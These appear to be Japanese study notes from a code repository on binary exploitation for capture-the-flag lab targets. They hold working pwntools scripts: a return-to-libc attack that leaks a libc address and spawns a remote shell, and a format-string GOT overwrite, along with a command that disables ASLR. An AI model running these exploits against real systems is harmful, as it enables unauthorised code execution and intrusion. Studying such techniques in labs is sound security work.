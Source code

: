 # バッファオーバーフロー

## 用語

- ASLR（Address Space Layout Randomization） は、プログラムが実行されるときに、メモリ上のアドレスを毎回ランダムに変える セキュリティ機能
`/proc/sys/kernel/randomize_va_space` で設定
- PIE（Position Independent Executable）は、実行ファイル自体のアドレスもランダムにする
- GOT（Global Offset Table）は、動的にリンクされた関数のアドレスを保持する。
- PLT（Procedure Link Table）。関数のPLTアドレスを呼び出すことは、関数自体を呼び出すことと同じ。

```python
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
```

## Return to LIBC

https://www.networkintelligence.ai/blogs/exploiting-buffer-overflow-using-return-to-libc/


ローカル環境で下記の情報を取得するとする

- Base Address
- System Address
- Exit Address
- /bin/sh Address

```shell
echo 0 > /proc/sys/kernel/randomize_va_space

ldd elffile

strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh

readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system

readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
```

```python
from pwn import * 
binary_file = './thelibrarian'
libc = ELF('./libc.so.6')

# Connect to remote target
p = remote('10.10.65.211', 9008)
#p = process(binary_file)

context.binary = binary = ELF(binary_file, checksec=False)
rop = ROP(binary)

# 1. パディングとretガジェットを配置
# 2. putsのアドレスを引数としてputsを呼び出す
# 3. 最後にmain関数に戻り、同じメモリ配置で2回目の処理が実行されるようにしている
padding = b"A" * 264
payload = padding
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.symbols.main)

p.recvuntil(b"Again? Where this time? : \n")
p.sendline(payload)
p.recvuntil(b"ok, let's go!\n\n")
# putsで出力したputs関数のアドレスを取得
leak = u64(p.recvline().strip().ljust(8, b'\0'))
log.info(f'Puts leak => {hex(leak)}')

# Calculate libc base
libc.address = leak - libc.symbols.puts
log.info(f'Libc base => {hex(libc.address)}')

# Calculate the /bin/sh and system addresses using the provided offsets
bin_sh_offset = 0x1b3d88
system_offset = 0x4f420

bin_sh = libc.address + bin_sh_offset
system = libc.address + system_offset

log.info(f'/bin/sh address => {hex(bin_sh)}')
log.info(f'system address => {hex(system)}')

# Second payload for spawning shell
payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(bin_sh)            # Use manually calculated /bin/sh address
payload += p64(system)            # Use manually calculated system address
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(0x0) 

p.recvuntil(b"Again? Where this time? : \n")
p.sendline(payload)
p.recvuntil(b"ok, let's go!\n\n")
p.interactive()
```

## フォーマット文字列脆弱性

引数無しで `print("%p %p %p")` のような呼び出しをした場合の動作は未定義だが、下記の例では ABCDEFGH が6番目の引数であるように動作していることが分かる。（※リトルエンディアンのアドレス（0x4847464544434241）として解釈されている）

```shell
$ python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,40)]))"                             
ABCDEFGH|1:%p|2:%p|3:%p|4:%p|5:%p|6:%p|7:%p|8:%p|9:%p|10:%p|11:%p|12:%p|13:%p|14:%p|15:%p|16:%p|17:%p|18:%p|19:%p|20:%p|21:%p|22:%p|23:%p|24:%p|25:%p|26:%p|27:%p|28:%p|29:%p|30:%p|31:%p|32:%p|33:%p|34:%p|35:%p|36:%p|37:%p|38:%p|39:%p

$ python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,40)]))" | ./notspecified | grep 4847
ABCDEFGH|1:0x7fde7f380643|2:(nil)|3:0x7fde7f29c936|4:(nil)|5:(nil)|6:0x4847464544434241|7:0x3a327c70253a317c|8:0x7c70253a337c7025|9:0x253a357c70253a34|10:0x377c70253a367c70|11:0x70253a387c70253a|12:0x30317c70253a397c|13:0x253a31317c70253a|14:0x7c70253a32317c70|15:0x34317c70253a3331|16:0x253a35317c70253a|17:0x7c70253a36317c70|18:0x38317c70253a3731|19:0x253a39317c70253a|20:0x7c70253a30327c70|21:0x32327c70253a3132|22:0x253a33327c70253a|23:0x7c70253a34327c70|24:0x36327c70253a3532|25:0x253a37327c70253a|26:0x7c70253a38327c70|27:0x30337c70253a3932|28:0x253a31337c70253a|29:0x7c70253a32337c70|30:0x34337c70253a3333|31:0x253a35337c70253a|32:0x7c70253a36337c70|33:0x38337c70253a3733|34:0x253a39337c70253a|35:0x7fde7f3c0a70|36:(nil)|37:0x7fff0a037ea0|38:0x1|39:0x7fde7f1c1ca8
```

fmtstr_payloadを使ったエクスプロイト

```python
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload
from pwn import *
context.clear(arch = 'amd64', endian ='little')
def send_payload(payload):
        s.recvline()
        s.sendline(payload)
        r = s.recvline()
        return r

elf = ELF('./notspecified')
exit_got = elf.got['exit']
win_func = elf.symbols['win']
#s = process('./notspecified')
s = remote('10.10.23.250', 9009)

payload = fmtstr_payload(6, {exit_got: win_func})
print(payload)
print(send_payload(payload))
s.interactive()
```
